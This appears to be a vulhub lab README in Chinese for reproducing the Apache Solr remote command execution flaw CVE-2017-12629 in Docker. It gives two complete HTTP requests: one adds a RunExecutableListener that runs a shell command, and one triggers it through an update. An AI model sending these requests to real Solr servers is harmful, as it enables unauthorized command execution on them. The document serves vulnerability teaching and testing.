

# Apache Solr 远程命令执行漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境测试RCE漏洞。

## 漏洞环境

运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```



然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```


执行`docker-compose exec solr bash`进入容器，可见`/tmp/success`已成功创建：


